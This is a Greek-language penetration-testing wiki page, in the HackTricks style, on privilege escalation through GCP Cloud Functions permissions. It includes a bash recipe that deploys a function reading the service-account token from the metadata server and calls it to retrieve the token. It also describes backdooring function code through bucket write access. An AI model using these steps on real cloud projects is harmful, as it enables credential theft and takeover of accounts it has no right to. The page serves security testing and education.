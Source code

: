 # GCP - Cloudfunctions Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudfunctions

Περισσότερες πληροφορίες σχετικά με τις Cloud Functions:

{{#ref}}
../gcp-services/gcp-cloud-functions-enum.md
{{#endref}}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **δημιουργήσει μια νέα Cloud Function με αυθαίρετο (κακόβουλο) κώδικα και να της αναθέσει έναν Service Account**. Στη συνέχεια, να διαρρεύσει το token του Service Account από τα μεταδεδομένα για να κλιμακώσει τα δικαιώματα σε αυτόν.\
Ορισμένα δικαιώματα για την ενεργοποίηση της λειτουργίας μπορεί να απαιτούνται.

Τα σενάρια εκμετάλλευσης για αυτή τη μέθοδο μπορούν να βρεθούν [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) και [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) και το προεγκατεστημένο αρχείο .zip μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Ένας επιτιθέμενος με αυτά τα δικαιώματα μπορεί να **τροποποιήσει τον κώδικα μιας Function και ακόμη και να τροποποιήσει τον service account που είναι συνδεδεμένος** με στόχο την εξαγωγή του token.

> [!CAUTION]
> Για να αναπτύξετε cloud functions θα χρειαστείτε επίσης δικαιώματα actAs πάνω από τον προεπιλεγμένο service account υπολογιστή ή πάνω από τον service account που χρησιμοποιείται για την κατασκευή της εικόνας.

Ορισμένα επιπλέον δικαιώματα όπως η άδεια `.call` για την έκδοση 1 των cloudfunctions ή ο ρόλος `role/run.invoker` για την ενεργοποίηση της λειτουργίας μπορεί να απαιτούνται.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
> [!CAUTION]
> Αν λάβετε το σφάλμα `Permission 'run.services.setIamPolicy' denied on resource...` είναι επειδή χρησιμοποιείτε την παράμετρο `--allow-unauthenticated` και δεν έχετε αρκετά δικαιώματα για αυτό.

Το exploit script για αυτή τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Με αυτή την άδεια μπορείτε να αποκτήσετε μια **υπογεγραμμένη διεύθυνση URL για να μπορέσετε να ανεβάσετε ένα αρχείο σε έναν κάδο λειτουργίας (αλλά ο κώδικας της λειτουργίας δεν θα αλλάξει, πρέπει ακόμα να τον ενημερώσετε)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
Not really sure how useful only this permission is from an attackers perspective, but good to know.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Δώστε στον εαυτό σας οποιοδήποτε από τα προηγούμενα **`.update`** ή **`.create`** δικαιώματα για να κλιμακώσετε.

### `cloudfunctions.functions.update`

Μόνο με **`cloudfunctions`** δικαιώματα, χωρίς **`iam.serviceAccounts.actAs`** δεν **θα μπορείτε να ενημερώσετε τη λειτουργία ΟΠΟΤΕ ΑΥΤΟ ΔΕΝ ΕΙΝΑΙ ΜΙΑ ΕΓΚΥΡΗ ΚΛΙΜΑΚΩΣΗ.**

### Read & Write Access over the bucket

Εάν έχετε δικαιώματα ανάγνωσης και εγγραφής πάνω από τον κάδο, μπορείτε να παρακολουθείτε τις αλλαγές στον κώδικα και όποτε συμβαίνει μια **ενημέρωση στον κάδο μπορείτε να ενημερώσετε τον νέο κώδικα με τον δικό σας κώδικα** ώστε η νέα έκδοση της Cloud Function να εκτελείται με τον υποβληθέντα κώδικα με backdoor.

Μπορείτε να ελέγξετε περισσότερα σχετικά με την επίθεση στο:

{{#ref}}
gcp-storage-privesc.md
{{#endref}}

Ωστόσο, δεν μπορείτε να το χρησιμοποιήσετε για να προ-συμβιβάσετε τρίτες Cloud Functions γιατί αν δημιουργήσετε τον κάδο στον λογαριασμό σας και του δώσετε δημόσια δικαιώματα ώστε το εξωτερικό έργο να μπορεί να γράψει πάνω του, λαμβάνετε το εξής σφάλμα:

<figure><img src="../../../images/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

> [!CAUTION]
> Ωστόσο, αυτό θα μπορούσε να χρησιμοποιηθεί για επιθέσεις DoS.

### Read & Write Access over Artifact Registry

Όταν δημιουργείται μια Cloud Function, μια νέα εικόνα docker αποστέλλεται στο Artifact Registry του έργου. Προσπάθησα να τροποποιήσω την εικόνα με μια νέα και ακόμη και να διαγράψω την τρέχουσα εικόνα (και την εικόνα `cache`) και τίποτα δεν άλλαξε, η cloud function συνεχίζει να λειτουργεί. Επομένως, ίσως **να είναι δυνατό να καταχραστεί μια επίθεση Race Condition** όπως με τον κάδο για να αλλάξει το docker container που θα εκτελείται αλλά **απλά τροποποιώντας την αποθηκευμένη εικόνα δεν είναι δυνατό να συμβιβαστεί η Cloud Function**.

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}

